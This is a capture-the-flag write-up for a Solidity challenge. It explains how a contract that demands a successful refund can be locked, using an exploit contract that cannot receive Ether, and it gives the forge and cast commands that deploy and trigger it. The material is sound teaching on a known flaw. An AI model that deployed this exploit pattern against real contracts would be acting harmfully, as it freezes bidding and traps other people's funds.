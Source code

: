 Becoming a VVVIP Member always has the downside, like how easily you can be replaced by other, but what if we can make ourselves forever a VVVIP member? That's the task that we are going to tackle in this challenge, the `isSolved()` condition as seen below is quite unique

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.25;

import "./VVVIP.sol";

contract Setup{
    VVVIP public immutable vvvip;
    bool public solved;

    constructor() payable {
        require(msg.value == 15 ether);
        vvvip = new VVVIP();
        vvvip.becomeVVVVIP{value: 3 ether}();
    }

    function TryIfSolve() public payable {
        try vvvip.becomeVVVVIP{value: 10 ether}() {
            (address amIVVVVIP, ) = vvvip.getVVVVIP();
            require(amIVVVVIP != address(this), "You are still VVVIP member!");
            solved = false;
        } catch {
            solved = true;
        }
    }

    function isSolved() public view returns(bool){
        return solved;
    }

    receive() external payable{}

}
```

initially, the Setup Contract is the current VVVIP Member with 3 Ether worth, but there is a function `TryIfSolve()`, this function will run in order to change the `solved()` value, if the Setup succeed to reclaim his Membership, then we are going to receive our money back and we lost our VVVIP Member status, but if we check our balance using this command

```bash
cast balance -r $RPC_URL $WALLET_ADDR
```

Turns out we only have 7 Ether, so how come we can hold our status as the VVVIP Member if the Setup is going to reclaim it with 7 Ether? Let's see the VVVIP Contract first

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.25;

contract VVVIP{
    address private currentVVVIP;
    uint256 private currentBalance;

    function becomeVVVVIP() external payable{
        require(msg.value > currentBalance, "You don't have enough money to become VVVIP!");
        (bool refund, ) = currentVVVIP.call{value: currentBalance}(""); 
        require(refund, "The fund is not given back!");
        if(currentVVVIP == address(0)){
            currentVVVIP = msg.sender;
            currentBalance = msg.value;
        }
        currentVVVIP = msg.sender;
        currentBalance = msg.value;
    }

    function getVVVVIP() public view returns(address, uint256){
        return (currentVVVIP, currentBalance);
    }

}
```

There we can see the logic, so the first person to interact with it will automatically become the VVVIP Member, which is the Setup with 3 Ether worth. When someone tries to challenge the VVVIP Member, if the Ether send to challenge is less than the current VVVIP Member worth, it will revert, else it will refund the worth of the previous VVVIP member and set the new VVVIP Member alongside with the Ether worth. 

The logic there seems flawless, but what if I told you we don't have to be the one to interact with it, we can just create an Exploit Contract that has no way of receiving Ether. Why this would work? Since the way of refund is required to be successful, if we just make it failed everytime, our VVVIP Member status won't be revoked, so here is the Exploit Contract.


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.25;

import "./VVVIP.sol";
import "./Setup.sol";

contract Exploit{
    Setup public setup;
    VVVIP public vvvip;

    constructor(address payable _setup) payable{
        require(msg.value == 4 ether);
        setup = Setup(_setup);
        vvvip = VVVIP(setup.vvvip());
    }

    function exploit() public {
        vvvip.becomeVVVVIP{value: 4 ether }();
    }

}
```

We just need to deploy it and give it 4 Ether to works

```bash
// Deploying the Exploit Contract
forge create src/vvvip-member/$EXPLOIT_FILE:$EXPLOIT_NAME -r $RPC_URL --private-key $PK --constructor-args $SETUP_ADDR --value 4ether

// Interacting with the Exploit
cast send -r $RPC_URL --private-key $PK $EXPLOIT_ADDR "exploit()"
```

Running the command above and make the Exploit contract become the forever VVVIP Member will solved the challenge!